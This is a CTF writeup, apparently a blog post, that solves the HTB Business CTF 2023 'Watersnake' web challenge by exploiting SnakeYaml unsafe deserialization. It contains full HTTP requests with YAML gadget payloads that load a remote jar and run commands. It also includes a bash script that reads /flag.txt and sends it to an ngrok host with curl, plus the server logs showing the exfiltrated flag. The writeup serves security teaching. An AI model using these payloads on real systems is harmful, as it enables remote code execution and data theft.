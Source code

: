 ```yaml
---
layout: post
title: HTB Business CTF 2023 Writeup - Web - Watersnake
date: 2023-07-19
type: post
tags:
- Writeup
- Hacking
- BusinessCTF
- CTF
permalink: /2023/07/HTBBusinessCTF/WebWatersnake
img: 2023/07/HTBBusinessCTF/Watersnake/WatersnakeDescription.png
---
```


In this challenge I had to exploit a Java deserialization vulnerability in [SnakeYaml](https://github.com/snakeyaml/snakeyaml).

> Easy

> As the United Nations of Zenium and the Board of Arodor engage in a fierce competition to establish a colony on Mars using Vitalium. State hackers from UNZ identify an exposed instance of the critical facility water management software, Watersnakev3, in one of Arodor's main water treatment plants. The objective is to gain control over the water supply, and weaken the Arodor's infrastructure.

The challenge provided a web link and the source code of the application.

![Dashboard](/assets/images/2023/07/HTBBusinessCTF/Watersnake/Dashboard.png "Dashboard")

I looked around the application, there was a page that allowed updating the application framework.

![Update Framework](/assets/images/2023/07/HTBBusinessCTF/Watersnake/Update.png "Update Framework")

I looked at the code for that page.

```java
import org.yaml.snakeyaml.Yaml;

...

@PostMapping("/update")
public String update(@RequestParam(name = "config") String updateConfig) {
      InputStream is = new ByteArrayInputStream(updateConfig.getBytes());
    
      Yaml yaml = new Yaml();

    Map<String, Object> obj = yaml.load(is);

  obj.forEach((key, value) -> System.out.println(key + ":" + value));

  return "Config queued for firmware update";
}
```

The code was not doing much. It parsed the posted data with SnakeYaml and printed the information on the server. It didn't use the data for anything else.

I looked for SnakeYaml and found a [deserialization vulnerability](https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/). I tried the provided example.

```http
POST /update HTTP/1.1
Host: 94.237.59.27:41305
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.59.27:41305/update.html
Content-Type: multipart/form-data; boundary=---------------------------35757842852628603361634950895
Origin: http://94.237.59.27:41305
Connection: keep-alive
Content-Length: 323

-----------------------------35757842852628603361634950895
Content-Disposition: form-data; name="config"

a: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["https://03aa-69-159-156-59.ngrok-free.app/test.jar"]]]]
b: fdsklj
-----------------------------35757842852628603361634950895--
```

My web server got a hit.

```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [14/Jul/2023 18:55:52] "GET /test.jar HTTP/1.1" 200 -
```

With that, I knew I could execute code on the server. I created a small script to read the flag and send it to my server.

```bash
$ cat test.sh
#!/bin/bash

TEST=`cat /flag.txt | base64`
curl https://b53d-69-159-156-59.ngrok-free.app/$TEST
```

Then I used the vulnerability to download the file from the server.

```http
POST /update HTTP/1.1
Host: 94.237.59.27:41305
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.59.27:41305/update.html
Content-Type: multipart/form-data; boundary=---------------------------35757842852628603361634950895
Origin: http://94.237.59.27:41305
Connection: keep-alive
Content-Length: 296

-----------------------------35757842852628603361634950895
Content-Disposition: form-data; name="config"

a: !!com.lean.watersnake.GetWaterLevel ["curl https://b53d-69-159-156-59.ngrok-free.app/test.sh -o /tmp/test.sh"]
b: fdsklj
-----------------------------35757842852628603361634950895--

```

And finally execute it.

```http
POST /update HTTP/1.1
Host: 94.237.59.27:41305
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.59.27:41305/update.html
Content-Type: multipart/form-data; boundary=---------------------------35757842852628603361634950895
Origin: http://94.237.59.27:41305
Connection: keep-alive
Content-Length: 243

-----------------------------35757842852628603361634950895
Content-Disposition: form-data; name="config"

a: !!com.lean.watersnake.GetWaterLevel ["bash /tmp/test.sh"]
b: fdsklj
-----------------------------35757842852628603361634950895--
```

My server got the file download, and the base64 encoded flag.

```bash
127.0.0.1 - - [14/Jul/2023 19:02:18] "GET /test.sh HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2023 19:02:23] code 404, message File not found
127.0.0.1 - - [14/Jul/2023 19:02:24] "GET /SFRCe3IxZDNfdGgzX3NuNGszfQ== HTTP/1.1" 404 -
```

I decoded the flag and submitted it.

```bash
$ echo -n SFRCe3IxZDNfdGgzX3NuNGszfQ== | base64 -d
HTB{r1d3_th3_sn4k3}
```